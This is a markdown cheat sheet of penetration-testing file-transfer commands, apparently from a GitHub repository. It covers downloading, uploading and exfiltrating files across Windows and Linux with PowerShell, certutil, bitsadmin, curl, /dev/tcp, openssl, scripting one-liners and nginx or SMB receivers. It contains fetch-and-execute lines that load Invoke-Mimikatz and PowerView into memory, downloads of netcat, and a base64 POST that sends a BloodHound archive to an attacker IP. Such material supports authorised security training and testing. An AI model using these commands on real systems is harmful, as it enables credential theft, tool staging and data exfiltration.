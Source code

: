 | **Command** | **Description** |
| --------------|-------------------|
| `Invoke-WebRequest https://<snip>/PowerView.ps1 -OutFile PowerView.ps1` | Download a file with PowerShell |
| `IEX (New-Object Net.WebClient).DownloadString('https://<snip>/Invoke-Mimikatz.ps1')`  | Execute a file in memory using PowerShell |
| `Invoke-WebRequest -Uri http://10.10.10.32:443 -Method POST -Body $b64` | Upload a file with PowerShell |
| `bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe` | Download a file using Bitsadmin |
| `certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe` | Download a file using Certutil |
| `wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh` | Download a file using Wget |
| `curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh` | Download a file using cURL |
| `php -r '$file = file_get_contents("https://<snip>/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'` | Download a file using PHP |
| `scp C:\Temp\bloodhound.zip user@10.10.10.150:/tmp/bloodhound.zip` | Upload a file using SCP |
| `scp user@target:/tmp/mimikatz.exe C:\Temp\mimikatz.exe` | Download a file using SCP |
| `Invoke-WebRequest http://nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "nc.exe"` | Invoke-WebRequest using a Chrome User Agent |
|
| **Command** | **Description** |
| --------------|-------------------|
| `OPPESLL Transfer File `
| `openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem` | Create certificate
| `openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh` | Stand up server
| `openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh` | Download file
| 
| `Bash (/dev/tcp)`
| `exec 3<>/dev/tcp/10.10.10.32/80` | Connect to Target's Webserver
| `echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3` | HTTP GET Request
| `cat <&3` | Print the Response
|
| `php -r 'const BUFFER = 1024; $fremote = fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'` | Fopen()
| `php -r '$rfile = "https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"; $lfile = "LinEnum.sh"; $fp = fopen($lfile, "w+"); $ch = curl_init($rfile); curl_setopt($ch, CURLOPT_FILE, $fp); curl_setopt($ch, CURLOPT_TIMEOUT, 20); curl_exec($ch);'` | Php-curl
|
| `import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")` | python2
| `import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")` | python3
|
| `ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'` | ruby
| `perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'` | perl
|
|Go
|```
package main
import (
	 "os"
     "io"
     "net/http"
)

func main() {
     lfile, err := os.Create("LinEnum.sh")
     _ = err
     defer lfile.Close()

     rfile := "https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"
     response, err := http.Get(rfile)
     defer response.Body.Close()

     io.Copy(lfile, response.Body)
}```


| `Windows`
|
| `(New-Object System.Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1',"C:\Users\Public\Downloads\PowerView.ps1")` | PowerShell Downloads
| `Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1`
| `IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')`
| `Invoke-WebRequest https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1 | iex`
| `Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | iex;`
| `Import-Module bitstransfer;Start-BitsTransfer -Source "http://10.10.10.32/nc.exe" -Destination "C:\Temp\nc.exe"`
| `Upload File Poweshell`
| ```$b64 = [System.convert]::ToBase64String((Get-Content -Path 'c:/users/public/downloads/BloodHound.zip' -Encoding Byte))` 
|    Invoke-WebRequest -Uri http://10.10.10.32:443 -Method POST -Body $b64 ```
| `Start-BitsTransfer "C:\Temp\bloodhound.zip" -Destination "http://10.10.10.132/uploads/bloodhound.zip" -TransferType Upload -ProxyUsage Override -ProxyList PROXY01:8080 -ProxyCredential INLANEFREIGHT\svc-sql`
|
| ```Catching Files over HTTP/SMB ```
| `Nginx Enable PUT`
| 1 - `sudo mkdir -p /var/www/uploads/SecretUploadDirectory`
| 2 - ` sudo chown -R www-data:www-data /var/www/uploads/SecretUploadDirectory`
| 3 - ```Create the NGINX Configuration file, by creating the file /etc/nginx/sites-available/upload.conf with the contents:```
```server {
	listen 9001;
	
	location /SecretUploadDirectory/ {
		root	/var/www/uploads;
		dav_methods	PUT;
	}
}
```
| 4-`Symlink our site to the sites-enabled directory.: sudo ln -s /etc/nginx/sites-available/upload.conf /etc/nginx/sites-enabled/`
| 5 - `Start nginx : sudo systemctl restart nginx.service`
| 6 - `tail -2 /var/log/nginx/error.log`
| 7 - `sudo rm /etc/nginx/sites-enabled/default`
|
| ```Impacket SMBServer - Syntax```
| `smbserver.py -smb2support <share name> <location>`
| example : ```mkdir Transfers && cd Transfers
|             r00Tve0m@root[root]$ /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support FileTransfer $(pwd)```
|
|              ```smbserver.py -user USERNAME -password PASSWORD FileTransfer $(pwd)```
| 
